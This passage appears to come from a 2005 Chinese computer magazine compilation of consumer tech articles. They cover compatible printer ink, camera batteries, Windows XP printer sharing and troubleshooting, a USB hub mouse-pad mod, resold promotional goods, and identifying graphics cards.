“使用其他品牌的墨水会造成墨盒喷嘴堵塞，以致造成打印机损坏”，这是打印机厂商不同意用户使用兼容墨水的一个重要理由。以佳能彩色喷墨打印机来说，大都采用墨盒与喷嘴一体化的结构，墨水用完了，喷嘴及部分加热控制电路也随同墨盒报废，难道废弃不用的喷嘴还用得着担心被堵塞或损坏吗？
很多人往往有一个心理，如果自己的喷墨打印机用了原装墨水造成喷嘴堵头了，就会想“是不是我操作有误？”但是用了兼容墨水出了问题就会这么想“该死的兼容墨水把我的喷墨打印机弄坏了”。这种心理是可以理解的，但并不正确。质量好的兼容墨水，和原装墨水一样有正规的生产线、系统的原料和辅料测试、科学的工艺安排及严格的质量管理，特别是每款墨盒的海绵与墨水的配合都是经过单独测试和调整的，保证不与原装墨水冲突而造成沉淀，一般不会堵塞喷嘴。打个比方来说，喷嘴像大门，墨水里的小微粒就像乒乓球，你什么时候看到乒乓球把大门给堵塞了。当然，劣质的兼容墨水肯定容易出问题，所以，下面再教大家如何鉴别兼容墨水质量的技巧。

## 鉴别兼容墨水质量的技巧

市面上的“兼容墨水”生产厂商林林总总有几十个品牌，比较有名的有天威、格力、耐力、神杰、素之彩、格之格等，一般我们认准品牌选购就可以了。通常技术好的兼容墨水厂商会按照Epson、HP、Canon、Lexmark以及Color(普通)、Photo(照片)等不同打印机生产对应的墨盒(水)，有实力的品牌产品线较全，能覆盖几乎全部型号打印机墨盒(水)。
填充墨水这类产品看上去都大同小异，外包装内是塑料瓶，内装15~30ml不等墨水，好一些的产品带有详细的说明书和相应的填充工具，比如用于戳孔的针和用于灌墨水的注射器(见图1)。不过，大家要注意，Epson T007、T008、T009、T017、T018、T026、T027、T028、T029、T038、T039、T0321、T0322、T0323、T0324等型号的墨盒是带IC芯片，有些兼容墨水厂家还推出配套的芯片恢复器(见图2)。注墨前，使用芯片恢复器能修改墨盒芯片的数据，将墨水量为零的墨盒恢复成全满状态，这样，只要填充墨水，墨盒又能继续使用。
打印效果主要取决于三个方面：打印机本身的打印技术、打印墨水和打印纸张。由于墨水的配方是商业机密，所以除了原装墨水厂自己贴自己品牌的兼容墨水外，一般兼容墨水的性能比不上原装墨水。举例来说，在普通纸上的文字效果边缘有些洇墨，黑度不够，个别型号墨盒在填充彩色墨水后，会略有色偏等等，但这是不可避免的。
至于如何鉴别兼容墨水的质量好坏，实际打印是检验质量的惟一标准。将兼容墨水按要求加入空墨盒(墨盒电极必须是好的)，加墨后进行喷墨清洗，看自检打印是否正常(如果自检都通不过，就要立即清洗掉不合适的墨水，换墨)，然后用WORD进行排版，设定字体为七号(比较小的字体了)和五号(正常字体)，背景“加网”。最后用草图模式(见图3)(或类似的选项)打印方式在纸上进行打印试验。如果没有明显的缺笔断划问题，这类墨水属于优质墨水，可以放心使用。







(本刊记者 王寒晖)

## 当电老虎遇到高电量电池

数码相机发展到今天，像素、功能和画质已经不够成制约普通消费者购买或使用数码相机的障碍了，数码相机的电池性能也是大家比较关心的。特别是数码相机的液晶显示屏和闪光灯的耗电量很大，对于采用定额电压的数码相机来说，对电流的需求也就相对增大，所以很多人都希望给数码相机配一块大容量的电池。但是，目前市面上的伪劣和假冒电池依旧很多，下面就教大家花最少的钱买到最适合自己的数码相机使用的电池。

## 数码相机电池放眼看

目前，数码相机使用最多的电池主要有碱性锌锰电池、镍镉可充电电池、镍氢可充电电池和锂离子电池。

- 1. 碱性锌锰电池(Zinc-MnO₂)
碱性锌锰电池就是我们常说的“碱电池”，它具有电容量大，电流强使用持久等特性。碱性电池还分有环保型碱性电池和非环保型碱性电池，非环保型碱性电池是含汞电池，原因是此类电池如在成份中加入氧化汞可提升其电容量约30%以上，但同时零售价格也相对提高。最普通的品牌是南孚、劲量、金霸王、GP超霸。
- 2. 镍镉可充电电池(Ni-Cd Rechargeable Battery)
镍镉可充电电池就是我们常说的“镍镉电池”。镍镉电池的优越之处就是耐充电，一般来说充电电池的包装分为零售用的正极凸头和组装用的正极平头包装两种，在容量上没有差异。在充电回路也和镍氢电池类似，采用1.6倍电压充电。通常镍镉电池的充电次数为300～800次，在充放电达500次后电容量会下降，只能达到约80%。镍镉电池的缺点，是在充放电时，阴极会长出镉的针状结晶，有时会穿透分隔物而引起内部枝状晶体式的短路。
- 3. 镍氢可充电电池(Ni-Mh Rechargeable Battery)
镍氢可充电电池就是我们常说的“镍氢电池”，镍氢电池主要是为了取代镍镉电池(Ni-Cd Rechargeable Battery)而设计的。镍氢电池是使用氧化镍作为阳极，以及吸收了氢的金属合金作为阴极，由于此合金可吸收高达本身体积100倍的氢，储存能力极强。镍氢电池的能量密度比镍镉电池大，其容量约为镍镉电池的2倍。另外，它具有同镍镉电池的1.2V电压，以及自身放电的特性。它的优点是充电效率高，能在2小时内充足90%电量，缺点是放电深度大，耐过充和过度放电，在百分之百放电深度下，可达500次以上的充放电循环。因此这种电池的充电器必须可自动断电，否则易造成电池损坏，所以不可以使用一般镍镉电池充电器。

### 小提示
AAAA、AAA、AA、A、SC、C电池是什么意思？
AAAA比较少见，一次性的AAAA劲量碱性电池偶尔还能见到，标准的AAAA(平头)电池高度41.5mm，直径8.1mm。AAA电池就比较常见，一般的MP3播放机用的都是AAA电池，标准的AAA(平头)电池高度43.6mm，直径10.1mm。AA电池就是数码相机常用的电池规格，标准的AA(平头)电池高度48.0mm，直径14.1mm。只有一个A表示型号的电池不常见，这一系列通常作电池组里面的电池芯，镍镉电池几乎都是4/5A，或者4/5SC的电池芯。标准的A(平头)电池高度49.0mm，直径16.8mm。SC也不常见，一般是电池组里面的电池芯，多在电动工具和摄像机以及进口设备上能见到，标准的SC(平头)电池高度42.0mm，直径22.1mm。C也就是二号电池，标准的C(平头)电池高度49.5mm，直径25.3mm。

- 4. 锂离子电池(Li-Ion Battery)
锂离子电池和其他金属锂电池一样具有输出高电压的能力，电压范围在3.0～4.0V之间。但它比金属锂电子更安全，原因就在于是采用锂离子状态，锂离子电池没有可流动的液态电解质，而是改为聚合物电解质导电。锂离子电池与镍氢可充电电池相比，重量比镍氢可充电电池轻30～40%，电容量比却高出60%。而且锂离子电池具有自我放电小，又没有记忆效应，充放电次数可达500次以上。

## 数码相机电池选购技巧

- 1. 你需要购置第二块锂电池吗?
限制一个摄友的拍摄续航能力有两个因素：存储卡和电池。也就是说，如果你只有64MB的存储卡，虽然他使用的是非常耗电的数码相机，但是他其实并不需要第二块电池；反之，如果你购买了1GB的大容量存储卡，为了充分发挥海量存储的优势，就很有必要去选购第二块超大电力的锂电池了。另外，如果你外出旅游、公干，或者要拍摄婚礼、会议的照片，可能没大方便充电，此时也有必要购买第二块锂电池。
至于电量的大小，电量越大的电池当然最好，但是电池随着电量的增加价格也是扶摇直上。如果你的数码相机使用的是AA 5号电池，笔者这里推荐大家选择1800mAh以上的产品。
- 2. 购买原装电池，还是兼容电池?
目前市面上锂电池除了原厂的品牌外，兼容电池的品牌非常多。大家应该认清一个大方向，是购买原装电池，还是兼容电池。这就是仁者见仁，智者见智的问题了。
在你资金许可的情况下，还是建议你购买原装电池，价格肯定会比兼容电池贵不少。一块原装的锂电池，价格是不会低于300元的。假如有商家报出150元甚至更便宜的价格就可以买到原装锂电池，基本可以说明这是一块假电池或兼容电池。建议大家到信誉高些的商家购买，如果你用的是SONY数码相机，那么建议你到SONY数码梦工场购买，虽然价格会贵些，但可以保证是行货。

### 小提示
如果你是用SONY的数码相机，还要考虑电池的兼容性问题。因为有些电池由于没有解码，根本就无法在新型数码相机上使用。所以，建议你带上数码相机，亲自去试一下。
- 3. 锂电池的参数要看清
要知道，电池性能是与电压、毫安时(电量)、循环次数、电池适应性(低温情况，长期不使用情况)、稳定性等指标息息相关的(见图1)。而影响电池性能的是电池的电芯，品质最好的电芯品牌主要有Panasonic、Sanyo、Mitsibish、Hitachi等少数几家。一般只是有实力的厂商才会公布电芯的规格，所以大家尽可能购买标明电芯类型的厂家的产品。能够标明产品使用电芯规格的厂家，说明有非常稳定的产量和供应渠道，是可以信赖的标志。假如是小厂，由于进货规模有限，同样的电池可能会有好几种不同的电芯替换着使用(注意，这个和同一个电池有多种电芯型号选择是两回事)，这样的产品稳定性自然无从谈起。更有些小厂，选用的都是劣质电芯，自然不敢标注出来。



很多用户在比较电池的毫安时(电量)时，经常会忽略电压的问题。比方说，一块3.6V、1200mAh的电池和一块7.4V、700mAh的电池，很多朋友会觉得3.6V、1200mAh的电池比较强劲。实际上，真正厉害的应该是7.4V、700mAh电池。大家一定要注意，电池的电压一定要跟你的数码相机相匹配。
当然，我们也不可以过份相信一些电池的标注参数。很多兼容电池厂商，故意将电池的毫安时夸大，反正还是在公差范围之内；他们还会把明明只有100次循环寿命的电池说成有1000次的，当发生问题的时候则用“使用方法有问题”等说法来推托。
对于循环次数和产品稳定性，只有通过实际使用才能够感受得出。尤其是一些国产的地下工厂生产的电芯(那些假冒电池就选用此种电芯)，尤其喜欢牺牲循环次数来换取初始的高容量。对于尚没有购买的消费者，是无法直接判别的，这种情况下，应该和商家谈好保修包换期限。

## 5号充电电池产品推荐

虽然锂电池已经逐渐普及，但是5号电池仍然以便宜、方便更换而占据了相当的市场份额。在目前市场上5号充电电池品牌众多，鱼龙混杂，那么哪一种品牌什么型号的5号充电电池最实惠？

- 1. 三洋AA镍氢充电电池
三洋是世界上最大的电池生产厂商，三洋充电电池占据世界头把交椅，其强大的研发技术和生产工艺是赢得同行尊重的关键。三洋电池的优良性能是勿庸置疑的，而在国内率先推出2500mAh超大容量的镍氢电池。三洋电池在中国惟一的代理是海尔，所以如果看到非海尔代理的中文包装电池，那么一定是假货无疑。除了海尔代理的三洋电池，其他正品大多数是来自日本或是欧洲的进口货。正品电池在负极金属片的边缘刻有小小的“HR”字样。另外，我们还要注意观察它的正极，和其他电池正极不同，三洋电池正极不是完全的圆形，而是有点略带方形。



- 2. GP超霸AA镍氢充电电池
GP超霸进入中国市场较早，拥有一大批固定用户，市场对GP超霸品牌的认可程度也相当高。正品GP超霸电池周身印刷精细(正品电池和假货的一大差别)，正极处嵌有黑色板纸。另一个要注意的是正品GP超霸底部负极处刻有GP字样，桔黄色部分刻有“正品”两字，这是激光蚀刻无法抹去的。如果大家还没有购买充电器，建议大家购买GP超霸充电器和充电电池套装(称“充电宝”)。



- 3. SONY 5号镍氢充电电池
SONY镍氢充电电池适合各类SONY数码产品。具有品质好、充电快速、兼容性好的优点，但是缺点也是很明显的，就是价格偏贵。2300mAh电量的型号是值得向大家推荐，采用500次反复充放电设计。



- 4. 次世代(LEXEL)镍氢充电电池
次世代镍氢充电电池采用日本技术制造，由深圳力可兴生产，质量保证。次世代镍氢充电电池卡装，标称寿命为1000次充电，和杂牌相比，主要优点是实际使用寿命长、标称容量实际、技术含量较高、兼容性好、充电后自放电速度比较缓慢。对于数码相机用户，次世代镍氢充电电池具有良好瞬间放电性能正是需要的。



### 小技巧
数码相机电池使用技巧
★正确清洁电池
为了避免这种电量流失的问题发生，请保持电池两端的接触点(+和-)和电池盖子的内部干净。如有需要，请使用柔软、清洁的干布轻轻地擦拭。绝不能使用清洁性或是化学性等具有溶解性的清洁剂，像是稀释剂、或是含有酒精成分的溶剂清洁你的数码相机、电池或充电器。除此之外，在使用电池之前，请使用柔软干布清洁电池两端的接触点，尽量让电池两端接触点保持干净。这样，就可以确保电池可以完全地充足电量。如果电池的电极有出现氧化的情形时，需将其擦拭掉，如果是严重的氧化或脱落的情形时，应该立即更换新的电池。
★正确保存电池
如果你打算长时间不使用数码相机时，必须将电池从数码相机中或是充电器内取出，并将其完全放电，然后存放在干燥、阴凉的环境，而且不要将电池与一般的金属物品存放在一起。因为电池长时间存放在数码相机或是充电器内，可能会造成漏电，并且造成损坏等等问题。为了避免电池发生短路问题，在电池不用时，应以保护盖将其保存。存放已充饱电的电池时，要特别小心，不管是哪一类型的电池都一样，尤其是放在皮包、衣袋、手提袋或其他装有金属物品的容器中，更是不容疏忽。
★正确对电池充电
充电时，使用原厂的充电器和电池，将有助于电池寿命的延长。对于充电时间，则取决于所用充电器和电池，以及使用电压是否稳定等因素。如果是第一次使用的电池(或好几个月没有用过的电池)，其中，锂电池的充电时数一定要超过6小时，镍氢电池一定要超过14小时，否则日后电池寿命会较短。一般需经过数次充电/放电过程，才能达到最佳效率。在充电前，须确认正确的正、负极，切勿以相反的极性充电，非锂电池每次充电不可超过24小时。如果电池还有残余电量时，尽量不要重复充电，以确保电池寿命。

## 打印机共享初手上路

常见案例：局域网中，某台电脑安装了打印机，其他电脑共享此打印机进行打印作业。
现在的打印机都可以支持网络共享，设置方法比较简单。为了陈述方便，下面将配有打印机的电脑简称为“A机”，另一台电脑简称为“B机”。如无特殊说明，下文均以Windows XP为例。

- 1. 安装文件和打印机的共享协议
首先要确认两台电脑的网络邻居中，是否已出现两台计算机。再分别在A机与B机上安装文件和打印机的共享协议(默认情况下，Windows XP已安装了此协议)。右击桌面上的“网上邻居”图标，选择“属性”菜单项，打开“网络连接”对话框。再右击“本地连接”图标，在“常规”选项卡下查看“Microsoft网络的文件和打印机共享”(见图1)是否存在。如果不存在，则需要重新添加。
- 2. 安装与设置打印机共享
接下来，要分别在A机和B机上安装打印机驱动程序与设置打印机共享。此功能是把A机上的打印机给B机共享使用。A机与B机的安装与设置打印机共享方法不同，这里将分别进行说明。



假如A机中安装好打印驱动程序，那么单击“开始→设置→打印机和传真”，接着右击“XXX Printer”，在弹出的右键菜单中选择“共享”菜单项。这时会弹出一个“XXX Printer属性”的对话框，在“共享”标签中，单击“共享为”，在“共享名”中填上需要共享的名称，然后按“确定”按钮(见图2)。现在就可以在打印机中看到“XXX Printer”打印机图标会加上了一只手，这就说明打印机已经共享成功。

图 2

### 小提示
如果A机还没有添加打印机，可在添加打印机过程中，到设置“打印机共享”步骤时，在这里可以设置其他计算机是否能共享该打印机。如果选择“不共享这台打印机”单选项，用户安装的打印机只能被本机使用，如果希望其他用户使用该打印机，可选择“共享为”单选项，并在后面的文本框中输入共享时该打印机的名称(见图3)，该打印机就可以作为网络打印机使用。这里选择“共享为”单选项，并在后面的文本框中输入共享时该打印机的名称。



在B机中，单击“开始→设置→打印机”，然后双击“添加打印机”图标，来启动“添加打印机向导”，单击“下一步”按钮。当向导询问你的计算机与该打印机的连接方式时，选择“网络打印机”选项，单击“下一步”按钮。单击“浏览”按钮，在工作组中查找共享打印机，选择主机，再选择打印机(如HPDJ955)后按“确定”按钮。或使用访问网络资源的“通用命名规范”格式输入共享打印机的网络路径，如：“\CF\HPDJ955”，再单击“下一步”按钮。再输入打印机名，一般用默认打印机名，单击“下一步”按钮，然后单击“完成”按钮。如果设置了密码的话，请输入密码。最后在打印机窗口中添加了打印机图标，说明已安装完毕。
要打印文件时，只要在打印机名称栏中选择共享的打印机，并且进行相应的打印机设置后，按“确定”按钮即可进行打印。但是有一点要注意，共享打印机的计算机及打印机应该同时开着，并且没有打印作业时，此共享打印机才能正常工作。

### 小提示
让打印机通知你打印完毕
由于网络打印机对所有打印命令进行排队操作，所以你的文档何时打印完毕往往就难以确定了，于是你需在打印前跑到共享的打印机处查看。其实，如果你使用的是Windows 2000/XP，那么有一个让你知道共享的打印机何时将你的文档打印完毕的方法。单击“开始”，双击“控制面板”，单击“打印机和其他硬件”，单击“打印机和传真”。单击在用的网络打印机图标，然后单击“文件”菜单中的“服务器属性”，单击“高级”选项卡。选中“远程文档打印完成时发出通知”复选框，则在文档打印时打印子系统会发送一个通知消息。如果清除“打印远程文档时，通知计算机，不通知用户”复选框，那么该消息会通知用户。

## 将陌生人拒之门外

### 1. 隐藏共享打印机

常见案例：为防止局域网中其他用户随意使用你的共享打印机，你可以将它隐藏起来，让其共享名称不出现在“网上邻居”窗口中。
即使你使用了加密码的方法来控制其他计算机对共享打印机的访问，工作组每个人还是能在“网上邻居”中看到该打印机。在某些情况下，这会被视为安全漏洞。但不用担心，我们可以利用Windows秘密的网络共享技术来隐藏共享的网络资源。只需简单地在其共享名后附加一个$符号（例如：HPDJ955$），执行完此项操作后，该共享资源就不会在“网上邻居”中出现了。

### 2. 巧设不同系统的打印机共享

常见案例：如果只想某些用户可以使用你的共享打印机，而某些用户又不想让他使用你的共享打印机。
(1) Windows 2000/XP与Windows 98之间的打印机共享
默认情况下Windows 2000/XP的Guest账户是禁用的，Windows 98用户想用Windows 2000的共享打印机时，只要在Windows 2000/XP中启用Guest账户即可（在“控制面板→管理工具→计算机管理→用户”中进行设置）。但当Windows 2000/XP启用Guest账户并将打印机设成共享后，默认权限是Everyone都可打印，也就是说任何能联网的用户都可以使用你的打印机。
如何才能让局域网上的打印机实现安全共享呢？其实实现起来也不难：不要启用Guest用户，在Windows 2000/XP中新建一个普通用户，并设置密码。需使用Windows 2000/XP共享打印机的Windows 98用户，每次以新建的用户名和密码登录Windows 98，当Windows 98试图访问Windows 2000/XP的共享打印机时，就会用登录的用户名和密码去验证。如果Windows 2000/XP中有这样的用户名和密码，验证通过，可以正常使用打印机。而不知道用户名和密码的用户将被拒之门外。
(2) Windows 2000/XP中的打印机共享
有时，就算两台电脑都安装了Windows 2000/XP，安装了打印机的电脑已经启用了Guest账户，但使用Windows 2000/XP的其他电脑还是无法正常使用该打印机。当点击打印图标时，本机报告打印正常，可网络打印机却无反应。只有在“运行”中输入“\装有共享打印机的计算机名\打印机共享名”(或者在“网上邻居”中打开装有共享打印机的计算机名)，弹出用户名和密码验证窗口，输入该机器上的管理员用户名和密码后，一切打印正常。反而是安装Windows 98的电脑一直打印正常。
在“控制面板→管理工具→计算机管理→共享”下，打印机共享并没有对普通用户进行授权，所以Windows 2000/XP系列的电脑都无法正常使用共享打印机(Windows 98可能是安全级别要求低的缘故)，添加Everyone并赋予默认的权限后，整个局域网中所有电脑打印都恢复正常。其实这里开放Guest用户和前面所述的一样，仍然存在着不安全因素，根本解决办法就是在装有打印机的Windows 2000/XP中新增几个普通用户，并增设密码(密码的设定由每一个想共享打印的人自行设定，对其他人保密)，把新增的用户分给想使用共享打印机的人。如果是Windows 98用户，可直接以用户名和密码登录；如果是Windows 2000/XP用户，则要在“控制面板→管理工具→计算机管理→用户”中更改默认管理员的用户名为自己分得的用户名，密码与刚才所设的一样。

## 手把手教你解决打印机共享故障

### 1. 搜索不到共享打印机

这是绝大多数局域网用户安装共享打印机时最容易遇见的问题，通常表现是在共享打印机列表中只出现“Microsoft Windows Network”的信息，而共享打印机却搜索不到。
解决办法：这个故障有三个解决方法。一是在为“本地连接”安装“NWLink IPX/SPX/NetBIOS Compatible Transport Protocol”协议后，通常就可以搜索到共享打印机了；二是直接在“网上邻居”中双击进入打印服务器后，右击共享打印机图标，在弹出菜单中选择“连接”，在弹出的提示框中点击“是”按钮，即可快速安装好共享打印机；三是检查打印服务器的“本地连接”是否启用了“Internet连接防火墙”功能，如果开启了，请取消该功能，如果既想使用“Internet连接防火墙”功能，又想共享文件和打印机，则要安装NetBEUI协议(非路由协议)。

### 2. 无法浏览共享的打印机

浏览“网上邻居”后，双击共享打印机的计算机名图标，进入其中看共享的打印机是否存在，如存在，则表示当前工作站有权限对此打印机进行安装、打印之类的操作，如果看不到共享打印机或是无法浏览打印服务器，则表示当前工作站的权限不够。或者，共享打印机的计算机采用共享名后加“$”的方法，来隐藏共享的打印机。
解决办法：前者要从两方面来解决，一是在打印服务器中开放Guest账户，并在组策略中依次进入“计算机配置→Windows设置→安全设置→本地策略→用户权利指派”，删除“拒绝从网络访问这台计算机”项中的Guest账户即可；二是要确保打印服务器的“本地连接”属性中勾选了“Microsoft网络的文件和打印机共享”项。
后者解决方法除非你知道处在同一局域网的共享打印机是采取此方法进行隐藏共享的打印机，你也可以采用同样的方法访问隐藏的共享打印机。方法是：安装网络打印机时，在“网络路径或队列名”中输入“\CF\HPDJ955$”，其他步骤与前面类似。只不过你无法直接在“网上邻居”中看到隐藏的共享打印机。
（福建 斯佳丽）

## 让USB HUB与鼠标垫联谊

随着电脑技术的飞速发展，外围设备也日益增多，使得连接外设的USB接口也紧张起来。因为主板上集成的USB接口非常有限，一般新式主板可以集成四个USB接口，再加上主板上扩展的接口，可以达到8个USB口，而老式主板一般只有两个或四个USB接口。要想同时使用USB接口的鼠标、键盘、打印机、扫描仪、数码相机、闪存盘、移动硬盘和MP3播放机等设备是不可能的。因此，使用时只好插来拔去的。为了能够一劳永逸，只有想办法扩展USB接口的数量。
在电脑市场中有一种一转四的USB HUB出售(见图1)，价格便宜，使用方便，是扩充USB接口数量的最佳选择。但这种USB HUB的数据线很短(见图2)，而电脑主机一般都是放在电脑桌下，使用它时还是感觉有点不便，如果能将这种USB HUB数据线延长，放置在电脑桌上就好了。由于外部设备的增多，现在的电脑桌可是寸土寸金，随便放置将会使桌面更加凌乱。因此，笔者想到了一个两全其美的办法。
笔者使用的鼠标垫上有个腕托(见图3)，可以减轻腕部疲劳。这种腕托较厚，而购得的USB HUB是超薄的，大小差不多，如果将USB HUB塞进去，不是既实用又美观吗？所需的工具很简单，一把锋利的美工刀就可以了。为了减小体积，将USB HUB拆开，取出内部的电路板(见图4)，根据电路板的大小，在鼠标垫的腕托部分开个洞(见图5)。鼠标垫是橡胶做的，因此开孔还比较容易，多试几次，细心一点就行了。
由于原来HUB上的数据线很短，因此要适当延长。USB接口共需四根导线，为了防

注：本文截取自《电脑爱好者合订本》2005年














止干扰，笔者选择了一种四芯屏蔽线。将屏蔽线去皮上锡，用电烙铁焊接在电路板上（见图6），记住屏蔽线与原有HUB数据线对应的颜色，再将原有的USB接口与屏蔽线焊接在一起。导线焊好后，检查一下，确认无误后，就可以将USB HUB的电路板塞进鼠标垫的腕托内了（见图7）。如果电路板与腕托之间较松，可以向开好的孔内塞点东西，橡胶是有弹性的，可以将电路板卡在里面，当然也可以使用热熔胶或是树脂胶等粘合剂将电路板和鼠标垫粘起来。

最后，将HUB上的USB口接入主机，整个制作就算完成了，怎么样？挺简单的吧？将一些常用的USB设备插上（见图8），实际使用时，并没有因为多了这几根数据线而影响操作，这次USB HUB与鼠标垫的“联姻”还是成功的。有兴趣的朋友不妨一试。

（江苏 远翔鸟）

## 非卖品也可以正常销售？！

### 非卖品=不能正常销售的产品

通常情况下，“非卖品”特指电脑类产品促销时，主要产品的附加赠品或免费提供给消费者的产品，以及以远低于市场价格进行附带捆绑销售的产品。一般来说，这种附带促销的产品和赠品都会在外包装盒的明显位置标上“本产品仅适用于捆绑销售，不得单独购买”或“非卖品”等说明文字。如果是国外的促销品，一般会标上英文“Not For Sale”，也就是“非卖品”的意思。

厂商都明文规定促销品不得上市销售，例如惠普在其官方网站上声明：“活动所赠礼品为非卖品，不得转售。”之类的条款。为何市场上还是有这么多的“非卖品”上市销售呢？不用说大家都知道是利益的驱使。

### 都是促销惹的祸

每年，不同的厂商都会开展不同的促销活动，而这种以赠品或捆绑销售的模式也成为许多厂商必用的促销手段。例如在2004年11月29日至2005年1月31日期间，在指定地点购买指定型号的HP笔记本电脑，只需另加488元就可以获得HP Photosmart 148照片打印机（见图），而此款照片打印机的市场价为1390元，当中的差价高达900多元。

每个商家在销售一台HP笔记本电脑时，都可以向惠普公司申请一台HP Photosmart 148照片打印机进行捆绑销售。有些用户可能不想加钱买这台照片打印机，因为促销价和市场价的差价太大，所以黑心商家就私自截留下来，另行销售。销售一台笔记本电脑的利润一般不会超过1000元，而截留一台捆绑销售的照片打印机的利润却可高达900余元。我想，在这种利益的驱使下，一些黑心商家就会铤而走险。

对于赠品也是一样，黑心商家把一些本应属于消费者的“非卖品”克扣并占为己有。在促销期过后，再低价甩货“白来”的“非卖品”，而此时的出货行为，厂家是完全不知情的，认为在促销期间产品已全部赠出或售出。

### 对“非卖品”说NO！

作为用户来说，我们当然要拒绝“非卖品”

不会比正规产品优越，往往保修条件还要比正规产品差一些（品牌电脑赠送的打印机就属于这种情况，即使品牌电脑整机保修三年，但促销的打印机往往只提供一年质保）。

微型计算机商品修理更换退货责任规定（简称“三包”规定）中对“非卖品”方面的规定还不很完善，普通消费者购买此类产品应多加留神。但不是说赠品或捆绑销售的产品不能享受保修服务，恰恰相反，“三包”规定中规定了“随销售的微型计算机商品一起赠送的微型计算机商品，应当负责三包”。

如果大家在购买电脑或外设产品时，一定要留意外包装盒上是否有注明“非卖品”或“Not For Sale”等字样。为了防止商家销售“非卖品”或“捆绑销售”的产品，购买时一定要让商家提供一个正规的产品质保卡，并详细填写并盖章。这样即使不良商家无法解决，在日后出现的质量问题，也可以通过正规的产品质保卡与厂商沟通，对产品进行维修。如果你在不知情的情况下购买了“非卖品”或“捆绑销售”的产品，可以向市场管理部、厂商或当地消费者协会投诉。

当然“便宜没好货”也确实是这种产品的真实写照。是否购买，就要消费者自己取舍。

（本刊记者 王寒晖）

## 不开机箱认识显卡

### 入门篇：你真的知道正确的显卡型号？

从系统属性中我们能看到显卡型号。但由于显卡驱动属于外部驱动，而且现在显卡厂商都发布的统一驱动包，即一款驱动适合芯片厂商所有的显示芯片。因此我们可以修改驱动相关的inf文件来修改显示的显卡型号，或者在安装时强制选定名称不同的驱动程序。这样最后Windows还是会调用正确的驱动文件，但在型号显示时却是错误的型号。现在的显卡驱动都会带有自己的控制面板，而在这里显示的型号才是真正的显卡型号，图1中显示属性中的Quadro FX4000就是强制安装驱动后显示的错误显卡型号，而驱动控制面板中的GeForce 6600 GT才是当前显卡的正确型号。不过这样的信息在某些情况下也不是真实的，因为现在有不少DIY高手，通过修改驱动程序的核心内容，或者修改显卡在系统中的一些识别信息，给显卡安装特殊驱动，让普通显卡成为专业卡或者开启隐藏功能。因此要保证显卡型号正常识别，需要安装没有修改的驱动程序，并且也不要安装一些显卡修改软件。



### 进阶篇：软件提供更多信息

在显卡芯片厂商提供的驱动程序的控制面板中，我们已经能找到相当多的显卡信息，但由于各厂家甚至同厂家不同版本的控制面板差别很大，不具有通用性，另外专业软件也能提供更多的相关信息，因此我们依然采用以前介绍过的小巧通用的EVEREST来了解显卡。最新版的EVEREST已经支持GeForce6600等最新一代显卡，并且还提供了中文版，使用相当方便。下载地址：http://dl.pconline.com.cn/html/1/5/dlid=7695&dltypeid=1&pn=0&.html。

启动EVEREST测试软件后，打开“菜单”下面的“显示设备”展开菜单，点击其中的“图形处理器”选项，在右边的窗口中就会显示出显卡的相关信息（见图2）。在这里，用户要了解的主要有以下几方面：



### 1. 显卡的型号与核心代号

显示芯片厂会给同样结构的GPU一个产品代号，然后这些GPU通过检测，会分成不同等级，组装为不同显卡，并有了产品名称，图2中的NV43GT AGP就是产品代号，nVIDIA GeForce 6600 GT AGP就是产品名称。比如同为NV40核心的显卡产品就有GeForce 6800Ultra/GT/标准版/LE共4种型号。用户如何了解这些型号档次的高低呢？我们接下来一步一步走。

### 2. GPU的流水线数目

现在的GPU先将需要处理的资源通过顶点着色引擎（Vertex Shader）建立3D模型，再通过像素着色引擎（Pixel Shader）给模型加上色彩、光照等渲染信息。因此这两个引擎的数量和性能直接决定了显卡的档次。如果同样设计的一款显卡的像素着色引擎数目只有另一款显卡的一半，那么要达到相同的性能，这款显卡的频率必须比另一块显卡高一倍才行，因此引擎数目越多的显卡档次也就更高。在图2中，这款显卡拥有8条像素流水线，每条流水线拥有1个像素着色引擎，因此总共8个像素着色引擎；此卡还拥有3个顶点着色引擎。这两个引擎后面数字V3.0代表引擎的版本，新版本支持更多3D处理特性，但也要安装相应版本的DirectX才能发挥这些特性。图2中“DirectX 硬件支持”就表示的这块显卡需要安装何种版本以上的DirectX才能发挥特性。

### 3. 时钟频率和显存信息

图2中“GPU时钟频率”为核心运行频率，而“显存总线特性”下的“实时时钟频率”为显存频率，因为这款显卡用的DDR显存，所以下面还有一个频率为真实频率两倍的“有效时钟频率”。从图2中，我们可以说这款显卡的核心/显存频率为501MHz/501MHz（DDR）或者501MHz/1002MHz。另外，现在主板才开始流行DDR2内存，为何显存已经用DDR3呢？其实这里的GDDR3应该翻译为第三代图形卡用DDR内存，属于DDR2内存的改进版，而不是DDR3内存的图形卡版，因为现在还没有DDR3内存呢。与显存相关的信息还有容量和位宽，图2中的“显存大小”就是这款显卡的显存容量。而显存位宽这个很影响性能的信息却少有软件能够提供，而图2中“显存总线特性”下的“总线带宽”就是显卡的显存位宽。显存带宽越大，显卡性能越高。显存带宽 = 显存位宽 x 显存有效频率。在相同频率下，64bit位宽的显卡的带宽就只有128bit位宽的一半，显卡的性能也大大降低。入门用户在购买显卡时，很难直接判断显存位宽，容易被奸商欺骗，装机时候带上这款软件，就能很容易判断显存位宽。最后在“图形处理器制造商”中，可以了解到图形芯片的生产商，并能连接到官方网站寻找适合我们显卡的最新驱动程序。

### 发烧篇：读取BIOS，了解显卡品牌

现在的显卡多数都是公版设计，但不少大厂则为自己的显卡提供了大量专业软件，进一步挖掘显卡的潜能。如果我们没有相关资料，如何了解显卡品牌呢？如果你的显卡是nVIDIA芯片显卡的话，那么有软件能够帮忙，而其他芯片的显卡目前还没有这样功能的软件。从http://www.mydrivers.com/dir77/d31058.htm下载安装nVIDIA系列显卡X-BIOS Editor编辑工具。启动软件，点击“打开”，在弹出的菜单中点击“从存储器中读取”，那么在“常规”选项卡下面的“子厂商”信息中就会出现厂商的代码，而如果这个厂商代码有对应厂商，那么代码下面就会如图显示显卡的品牌（见图3），我们就能上相关厂商的主页去下载相关应用软件了。



虽然，我国人民的生活水平日益提高，但是相对于我国的大多数消费者来说一台少则七八千元，贵则几万元才可以购买到的新的笔记本电脑，应该还算是一种高档的产品。因此，在购买前和购买时决不可马虎了事，特别是对于一些对笔记本电脑知之不多，甚至一无所知的新手们来说，在购买前就更应该先做做“功课”了。那么，新手应如何选购笔记本电脑呢？以下笔者就自己的一些经验之谈，打算购买笔记本电脑的新手们可以参考一下，当然也适合一些对笔记本电脑有一定了解的读者参考。

### 第一点：购买前要做的工作

### 1. 弄懂笔记本电脑的主要常识及作用

